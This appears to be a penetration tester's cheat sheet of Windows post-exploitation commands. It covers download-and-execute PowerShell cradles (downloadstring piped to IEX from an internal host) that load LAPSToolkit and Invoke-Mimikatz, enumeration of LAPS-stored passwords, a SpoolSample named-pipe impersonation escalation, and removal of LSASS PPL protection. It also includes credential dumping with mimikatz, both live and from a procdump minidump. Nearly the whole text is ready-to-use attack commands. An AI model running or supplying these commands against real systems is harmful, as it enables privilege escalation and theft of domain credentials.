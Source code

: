 LAPS
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/LAPSToolkit.ps1') | IEX

Get-LAPSComputers (get all computers with labs, including pw)
Find-LAPSDelegatedGroups (users that are allowed to view pws)
Get-NetGroupMember -GroupName "LAPS Password Readers"
```

MSF
```shell
use post/windows/gather/credentials/enum_laps
```

View current privs
```
whoami /priv
```

Spoolsample local exploit
```
upload C:\\Windows\\Tasks\\met.exe
impersonate.exe \\.\pipe\test\pipe\spoolss
SpoolSample.exe srv srv/pipe/test
```

Mimikatz remove PPL and dump pws
```
privilege::debug (enable priv)
!+ (load driver)
!processprotect /process:lsass.exe /remove (remove ppl protection)
sekurlsa::logonpasswords (dump pws)
```

Offline dump lsass
```
procdump.exe lsass.exe

sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

Remotely load Invoke-Mimikatz
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/mimikatz.txt') | IEX
```

Invoke-Mimikatz remove PPL Protection
```powershell
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
```

Invoke-Mimikatz get passwords from minidump
```powershell
Invoke-Mimikatz -Command "`"sekurlsa::minidump c:\tools\lsass.dmp`" sekurlsa::logonpasswords"
```

Invoke-Mimikatz remove ppl & dump passwords
```powershell
Invoke-Mimikatz -Command "privilege::debug" !+ "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords
```
